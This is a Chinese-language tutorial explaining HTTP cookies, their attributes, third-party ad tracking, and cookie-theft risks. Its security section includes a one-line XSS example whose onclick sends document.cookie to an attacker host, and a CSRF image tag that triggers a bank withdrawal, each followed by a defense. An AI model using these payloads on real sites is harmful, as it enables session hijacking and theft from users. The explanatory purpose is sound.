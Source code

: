 ### 前言

网络早期最大的问题之一是如何管理状态。简而言之，服务器无法知道两个请求是否来自同一个浏览器。当时最简单的方法是在请求时，在页面中插入一些参数，并在下一个请求中传回参数。这需要使用包含参数的隐藏的表单，或者作为URL参数的一部分传递。这两个解决方案都手动操作，容易出错。

网景公司当时一名员工Lou Montulli，在1994年将“cookies”的概念应用于网络通信，用来解决用户网上购物的购物车历史记录，目前所有浏览器都支持cookies。

### cookie是什么
cookie翻译过来是“饼干，甜品”的意思，cookie在网络应用中到处存在，当我们浏览之前访问过的网站，网页中可能会显示：你好，王三少，这就会让我们感觉很亲切，像吃了一块很甜的饼干一样。

由于http是无状态的协议，一旦客户端和服务器的数据交换完毕，就会断开连接，再次请求，会重新连接，这就说明服务器单从网络连接上是没有办法知道用户身份的。怎么办呢？那就给每次新的用户请求时，给它颁发一个身份证（独一无二）吧，下次访问，必须带上身份证，这样服务器就会知道是谁来访问了，针对不同用户，做出不同的响应。，这就是Cookie的原理。

其实cookie是一个很小的文本文件，是浏览器储存在用户的机器上的。Cookie是纯文本，没有可执行代码。储存一些服务器需要的信息，每次请求站点，会发送相应的cookie，这些cookie可以用来辨别用户身份信息等作用。

![image](./images/cookie01.png)

如图所示,用户首次访问服务器，服务器会返回一个独一无二的识别码；id=23451，这样服务器可以用这个码跟踪记录用户的信息，（购物历史，地址信息等）。

cookie可以包含任意的信息，不仅仅是id，客户端会记录服务器返回来的Set-Cookie首部中的cookie内容。并将cookie存储在浏览器的cookie数据库中，当用户访问同一站点时，浏览器就会挑选当时该站点颁发的id=XXX的身份证（cookie），并在Cookie请求首部发送过去。

### cookie的类型
可以按照过期时间分为两类：会话cookie和持久cookie。会话cookie是一种临时cookie，用户退出浏览器，会话Cookie就会被删除了，持久cookie则会储存在硬盘里，保留时间更长，关闭浏览器，重启电脑，它依然存在，通常是持久性的cookie会维护某一个用户周期性访问服务器的配置文件或者登录信息。


> 持久cookie 设置一个特定的过期时间（Expires）或者有效期（Max-Age）

```
  Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2019 07:28:00 GMT;
```

### cookie的属性
#### cookie的域
产生Cookie的服务器可以向set-Cookie响应首部添加一个Domain属性来控制哪些站点可以看到那个cookie，例如下面：
```
  Set-Cookie: name="wang"; domain="m.zhuanzhuan.58.com"
```
如果用户访问的是m.zhuanzhuan.58.com那就会发送cookie: name="wang", 如果用户访问www.aaa.com（非zhuanzhuan.58.com）就不会发送这个Cookie。

#### cookie的路径 Path
Path属性可以为服务器特定文档指定Cookie，这个属性设置的url且带有这个前缀的url路径都是有效的。

例如：m.zhuanzhuan.58.com 和 m.zhaunzhuan.58.com/user/这两个url。
m.zhuanzhuan.58.com 设置cookie
```
  Set-cookie: id="123432";domain="m.zhuanzhuan.58.com";
```
m.zhaunzhuan.58.com/user/ 设置cookie：
```
  Set-cookie：user="wang", domain="m.zhuanzhuan.58.com"; path=/user/
```
但是访问其他路径m.zhuanzhuan.58.com/other/就会获得
```
  cookie: id="123432"
```
如果访问m.zhuanzhuan.58.com/user/就会获得
```
  cookie: id="123432"
  cookie: user="wang"
```
#### secure
设置了属性secure，cookie只有在https协议加密情况下才会发送给服务端。但是这并不是最安全的，由于其固有的不安全性，敏感信息也是不应该通过cookie传输的.

```
    Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure;
```

> chrome 52和firefox 52 开始不安全的（HTTP）是无法使用secure的：

### 操作Cookie

通过docuemnt.cookie可以设置和获取Cookie的值
```
document.cookie = "user=wang";
console.log(document.cookie);
```
> 禁止javascript操作cookie（为避免跨域脚本(xss)攻击，通过javascript的document.cookie无法访问带有HttpOnly标记的cookie。）

```
  Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2017 07:28:00 GMT; Secure; HttpOnly
```

### 第三方cookie

通常cookie的域和浏览器地址的域匹配，这被称为第一方cookie。那么第三方cookie就是cookie的域和地址栏中的域不匹配，这种cookie通常被用在第三方广告网站。为了跟踪用户的浏览记录，并且根据收集的用户的浏览习惯，给用户推送相关的广告。
![image](./images/cookie02.png)

如上图（a）：用户访问服务器1的一个页面index.html，这个页面和第三方广告网站合作，这个页面还有一张www.advertisement.com域名下的一张广告图ad1.jpg，当请求这张ad1.jpg图片的时候，www.advertisement.com这个服务器会给用户设置cookie
```
  Set-Cookie: user="wang";like="a"; domain="advertisement.com"
```
记录用户的浏览记录，分配一个user来表示用户的身份。

图（b）：用户访问服务器2的一个index.html页面，这个页面也和同一家广告商合作，这个页面也包含一张www.advertisement.com域名下的一张广告图ad2.jpg，当请求这张ad2.jpg图片的时候，浏览器就会向www.advertisement.com发送cookie
```
  Cookie:  user="wang"; like="a";
```
www.advertisement.com收到浏览器发送的cookie识别了用户的身份，同时又把这个页面用户的浏览数据设置cookie
```
  Set-Cookie: buy="b"; domain="advertisement.com"
```
图（c）：很巧，用户访问服务器3的一个index.html页面，这个页面也和那一家广告商合作，这个页面也包含一张www.advertisement.com域名下的一张广告图ad3.jpg，当请求这张ad3.jpg图片的时候，浏览器就会向www.advertisement.com发送cookie
```
  Cookie:  user="wang"; like="a"; buy="b"
```
这样广告公司就可以根据用户的浏览习惯，给用户推送合适的广告。

### 安全
多数网站使用cookie作为用户会话的唯一标识，因为其他的方法具有限制和漏洞。如果一个网站使用cookies作为会话标识符，攻击者可以通过窃取一套用户的cookies来冒充用户的请求。从服务器的角度，它是没法分辨用户和攻击者的，因为用户和攻击者拥有相同的身份验证。
下面介绍几种cookie盗用和会话劫持的例子：

#### 网络窃听
网络上的流量可以被网络上任何计算机拦截，特别是未加密的开放式WIFI。这种流量包含在普通的未加密的HTTP清求上发送Cookie。在未加密的情况下，攻击者可以读取网络上的其他用户的信息，包含HTTP Cookie的全部内容，以便进行中间的攻击。比如：拦截cookie来冒充用户身份执行恶意任务（银行转账等）。

解决办法：服务器可以设置secure属性的cookie，这样就只能通过https的方式来发送cookies了。

#### DNS缓存中毒

如果攻击者可以使[DNS缓存中毒](http://https://en.wikipedia.org/wiki/DNS_spoofing/)，那么攻击者就可以访问用户的Cookie了，例如：攻击者使用DNS中毒来创建一个虚拟的NDS服务h123456.www.demo.com指向攻击者服务器的ip地址。然后攻击者可以从服务器           h123456.www.demo.com/img_01.png 发布图片。用户访问这个图片，由于 www.demo.com和h123456.www.demo.com是同一个子域，所以浏览器会把用户的与www.demo.com相关的cookie都会发送到h123456.www.demo.com这个服务器上，这样攻击者就会拿到用户的cookie搞事情。

一般情况下是不会发生这种情况，通常是网络供应商错误。

#### 跨站点脚本XSS
使用跨站点脚本技术可以窃取cookie。当网站允许使用javascript操作cookie的时候，就会发生攻击者发布恶意代码攻击用户的会话，同时可以拿到用户的cookie信息。

例子：

```
<a href="#" onclick=`window.location=http://abc.com?cookie=${docuemnt.cookie}`>领取红包</a>
```
当用户点击这个链接的时候，浏览器就会执行onclick里面的代码，结果这个网站用户的cookie信息就会被发送到abc.com攻击者的服务器。攻击者同样可以拿cookie搞事情。

解决办法：可以通过cookie的HttpOnly属性，设置了HttpOnly属性，javascript代码将不能操作cookie。

#### 跨站请求伪造CSRF

例如，SanShao可能正在浏览其他用户XiaoMing发布消息的聊天论坛。假设XiaoMing制作了一个引用ShanShao银行网站的HTML图像元素，例如，
```
<img  src = "http://www.bank.com/withdraw?user=SanShao&amount=999999&for=XiaoMing" >
```
如果SanShao的银行将其认证信息保存在cookie中，并且cookie尚未过期，(当然是没有其他验证身份的东西)，那么SanShao的浏览器尝试加载该图片将使用他的cookie提交提款表单，从而在未经SanShao批准的情况下授权交易。

解决办法：增加其他信息的校验（手机验证码，或者其他盾牌）。
